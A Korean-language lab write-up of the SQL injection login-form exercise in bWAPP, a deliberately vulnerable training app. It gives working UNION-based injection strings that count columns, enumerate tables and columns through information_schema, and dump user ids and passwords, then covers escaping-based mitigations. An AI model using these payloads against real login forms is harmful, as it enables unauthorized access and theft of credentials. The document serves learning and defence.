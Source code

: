 ```yaml
---
title: "[bWAPP] 1. Injection - SQL Injection - (Login Form/Hero)"
---
```


<br>

## Injection

공격자가 신뢰할 수 없는 입력을 프로그램에 주입하도록 하는 공격.

<br>

<br>

## SQL Injection

응용 프로그램 보안 상의 허점을 의도적으로 이용해, 

임의의 SQL문을 주입하여 악의적인 SQL문을 실행하게 함으로써

DB를 비정상적으로 조작하는 코드 인젝션의 대표적인 공격.

이로인해 공격자가 DB에 저장되어 있는 다른 사용자의 개인 정보 등 허가되지 않은 정보에 접근하여,

데이터 변조 및 조작 가능.

<br>

<br>

## Object

개인정보를 탈취해보자

![image-20220316195556024](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316195556024.png)

![image-20220316195630270](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316195630270.png)

- 항상 참인 조건으로 삽입 공격
- `"select column from table where id=' " &id " ' " and  "password=' " &password " ' "` 으로 유추가능

<br>

### 컬럼 갯수

![image-20220316195916126](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316195916126.png)

- ' union select all 1 # ~ 'union select all 1,2,3,4 # 까지 해본 결과
- 컬럼 갯수는 4개
- 그 중 쓰이는 컬럼은 2번과 4번

<br>

### DB

![image-20220316200102096](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316200102096.png)

`' union select all 1,database(),3,4 #`

- DB는 BWAPP

<br>

### 테이블 조회

![image-20220316200400317](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316200400317.png)

`' union select all 1,table_name,3,4 from information_schema.tables where table_schema='bWAPP' limit 3,1#`

- limit 활용해서 0번부터 쭉 조회 3번이 users 테이블

<br>

### 컬럼 조회

![image-20220316200507757](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316200507757.png)

`' union select all 1,column_name,3,4 from information_schema.columns where table_name='users'#`

- 이 또한 limit활용해서 컬럼들 조회

<br>

### 컬럼 속성

![image-20220316200629848](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316200629848.png)

`' union select all 1,id,3,password from users#`

- 성공적으로 개인취약점 정보 확인 가능

<br>

<br>

## 대응방안

### Linux

![image-20220318002544545](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220318002544545.png)

![image-20220318002653266](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220318002653266.png)

- vi 편집기로 sqli_3.php 소스코드를 열어준다.
- level 1 : sqli_check_1 함수 사용
- level 2 : sqli_check_2 함수 사용

<br>

### functions_external.php

![image-20220317235926576](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317235926576.png)

- addslashes : 특수 문자(',",/) 앞에 역슬래시를 삽입하여 특수문자 기능을 문자로 이스케이프하는 함수
  - 인코딩된 태그나 스크립트가 들어오면 바로 디코딩되기 때문에 보안 허점 발생
- mysql_real_escape_string : PHP에서 SQL Injection 공격 등을 방어하기 위하여 특수 문자열을 이스케이프 하기 위한 함수
  - `\x00, \n, \r, \, ', ", \x1a`와 같은 문자 앞에 `\`(역슬레시)를 붙여서 해당 문자가 실제 작동하지 않도록 이스케이프 해준다.
  - addslashes 보다 처리할 수 있는 문자들이 더 많음

